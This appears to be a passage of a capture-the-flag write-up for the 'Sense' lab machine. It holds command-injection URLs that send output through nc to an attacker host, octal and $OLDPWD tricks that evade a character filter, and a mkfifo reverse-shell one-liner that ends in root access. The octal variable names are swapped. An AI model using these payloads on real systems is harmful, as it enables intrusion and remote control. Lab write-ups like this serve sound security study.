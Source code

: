 ```bash
nc -nlvp 443

https://10.10.10.60/status_rrd_graph_img.php?database=queues;id|nc%2010.10.14.22%20443
https://10.10.10.60/status_rrd_graph_img.php?database=queues;uname|nc%2010.10.14.22%20443
# :)

https://10.10.10.60/status_rrd_graph_img.php?database=queues;uname%20-a|nc%2010.10.14.22%20443
https://10.10.10.60/status_rrd_graph_img.php?database=queues;lsb_release%20-a|nc%2010.10.14.22%20443
# :(

https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo%20%27/%27|nc%2010.10.14.22%20443
https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo%20%27&%27|nc%2010.10.14.22%20443
https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo%20%27-%27|nc%2010.10.14.22%20443
# :(

https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo%20%27;%27|nc%2010.10.14.22%20443
# :)
```

<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I know what the problem is, I do some research and with the help of the community I find the way to avoid problems with most of the special characters that the web service blocks. With **“-”**, **“&”** I can use their value in **octal** and then with `printf` get the special character, but the problem is with **“/”** that I can solve by using the value of one of the **Environment variables**. After making some tests in my browser and obtaining favorable results, I modify the command to obtain a **Reverse Shell** and I finish my exploit. I just have to open a local port with `nc` waiting for the remote connection and exploit the vulnerability, this way I engage the box and I can access as the **root** user. I can now access the contents of the two flags, **rooted machine**.

> The **`printf`** command in Linux is a versatile tool that helps you format and display output in a structured way, just like in programming languages such as **C**. With various format specifiers and escape sequences, `printf` allows you to control how text, numbers, and other data types are presented on the terminal.

```bash
man ascii
# octal
hyphen=$(printf "\46") && echo $hyphen
ampersant=$(printf "\55") && echo $ampersant

# https://10.10.10.60/status_rrd_graph_img.php?database=queues;echo%20$OLDPWD|nc%2010.10.14.22%20443

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f" | tr ' ' '+'
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f" | tr ' ' '+' | sed 's/\//${OLDPWD}'/g
hyphen=$(printf "\46")
```